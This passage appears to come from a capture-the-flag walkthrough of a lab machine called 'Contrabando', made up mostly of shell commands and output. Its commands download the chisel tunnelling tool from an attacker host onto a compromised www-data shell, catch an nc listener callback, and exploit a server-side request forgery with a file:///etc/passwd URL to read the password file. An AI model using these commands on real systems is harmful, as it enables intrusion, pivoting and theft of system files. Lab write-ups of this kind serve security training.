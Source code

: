 <h2>chisel</h2>

```bash
www-data@124a042cc76c:/tmp$ curl http://AttackIP:8000/chisel -o chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8144k  100 8144k    0     0   176M      0 --:--:-- --:--:-- --:--:--  176M
```

```bash
www-data@124a042cc76c:/tmp$ chmod +x chisel
```

<img width="1101" height="217" alt="image" src="https://github.com/user-attachments/assets/ad688bf1-6a4f-4eb0-9f6e-cec861368d9a" />

<br>

<img width="1098" height="185" alt="image" src="https://github.com/user-attachments/assets/62837deb-b4de-45f3-ac23-88757def3306" />

<br>
<br>
<h2>localhost:5000</h2>

<img width="1535" height="300" alt="image" src="https://github.com/user-attachments/assets/3bbb6fce-737c-4dae-9cbf-7f1867e1f665" />

<br>

<img width="1366" height="226" alt="image" src="https://github.com/user-attachments/assets/8625d3a7-0f26-4392-a829-c7f46182a163" />

<br>

<img width="1284" height="214" alt="image" src="https://github.com/user-attachments/assets/54095118-56ae-46b3-ab98-8a612d2d4f41" />

<br>
<br>

```bash
:~/Contrabando# nc -nlvp 6666
Listening on 0.0.0.0 6666
Connection received on xx.xxx.xx.xxx 50502
GET / HTTP/1.1
Host: xx.xxx.xx.xxx:6666
User-Agent: PycURL/7.45.2 libcurl/7.68.0 OpenSSL/1.1.1f zlib/1.2.11 brotli/1.0.7 libidn2/2.2.0 libpsl/0.21.0 (+libidn2/2.2.0) libssh/0.9.3/openssl/zlib nghttp2/1.40.0 librtmp/2.3
Accept: */*
```

<img width="1286" height="209" alt="image" src="https://github.com/user-attachments/assets/21d93437-fe26-4541-b8ec-8a54472a00a0" />

<br>
<br>

```bash
:~/Contrabando# curl localhost:5000 -s -X POST -d 'website_url=file:///etc/passwd' | html2text | grep sh
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
false fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:
lxd:/bin/false hansolo:x:1000:1000::/home/hansolo:/bin/bash
```
